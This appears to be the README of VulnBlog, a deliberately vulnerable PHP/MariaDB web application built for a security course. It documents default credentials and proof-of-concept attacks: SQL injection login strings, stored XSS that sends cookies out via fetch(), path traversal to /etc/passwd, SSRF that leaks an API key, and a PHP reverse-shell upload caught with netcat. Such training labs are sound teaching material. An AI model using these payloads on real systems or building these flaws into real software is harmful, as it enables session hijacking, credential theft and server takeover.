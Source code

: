 # VulnBlog

A vulnerable PHP/MariaDB web application created for the BIF-5/WEBSEC course.

## Setup
**Note:** `setup.sh` enables apache2 and mariadb at startup.

```
git clone https://github.com/FelixSchuster/VulnBlog
sudo chmod +x setup.sh
sudo ./setup.sh
```

## Default Credentials
Database:
- `vulnuser`:`P@ssword`

Webpage:
- `admin`:`admin`
- `felix`:`P@ssword`

Passwords are currently saved in plain text, might change this later on.. or not, it's just another vulnerability to test for.

## Vulnerabilities / Proof of Concept

### A01:2021 – Broken Access Control
#### Example 1
In the navbar select 'Previously created Blogposts' and edit any blogpost.
You can edit blogposts of other users by editing the id parameter in the url.
```
http://127.0.0.1/vulnblog/index.php?page=edit_blogpost.php&id=<EDIT THIS>
```

### A03:2021 – Injection
#### Example 1: SQL Injection
The login form is injectable:
```
http://127.0.0.1/vulnblog/index.php?page=login.php
```

Valid SQL injection queries are:
```
' or 1=1 #
admin' #
```

#### Example 2: Stored Cross-Site-Scripting
Create a blogpost including the following payload:
```
<script>alert("XSS");</script>
```

Try hijacking a php session cookie using the payload:
```
<script>fetch('http://127.0.0.1:1234/'+document.cookie);</script>
```

Additionally start a netcat listener using:
```
nc -lvnkp 1234
```

### A04:2013 - Insecure Direct Object References
#### Example 1
Try accessing:
```
http://127.0.0.1/vulnblog/index.php?page=../../../../../../../../etc/passwd
```

### 2021 - Server-Side Request Forgery (SSRF)
Clicking on Dogs sends a GET Request with an imaginery API Key to the dog ceo API.
The URL looks like that: http://localhost/vulnblog/index.php?page=dogs.php&url=https://dog.ceo/api/breeds/image/random

We can change the url to our own webserver: &url=http://localhost:8888

Start a listener, resend the request and retrieve the secret:
```bash
alex@kali:~/VulnBlog$ nc -lvnp 8888                                  
listening on [any] 8888 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60404
GET / HTTP/1.1
Host: localhost:8888
Authorization: Basic VG9wU2VjcmV0QXBpS2V5ITo=
Accept: */*

alex@kali:~/VulnBlog$ echo "VG9wU2VjcmV0QXBpS2V5ITo=" | base64 -d    
TopSecretApiKey!:
```

### A03:2017 – Sensitive Data Exposure
#### Example 1:
Vulnblog offers the capability to upload images in blog entries. "The access is not protected, this allows users to navigate to the directory and get access to the uploads.
```
http://localhost/vulnblog/uploads/
```
### A03:2007 - Malicious File Execution
#### Example 1:
Unrestricted file uploads:

You can upload a PHP script to execute malicious code.
Try to upload the php-reverse-shell script to gain access to the server.
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
The file will be executed.

After that you need to get access to the server in order to use the reverse shell.
Use netcat to listen on port 1234.
```
nc -lvnp 1234
```
Now you can test if you are connected to the web server.
```
whoami
```

## Database
For further information see `./database/db.sql`.

![Database Diagram](./database/db.drawio.png)
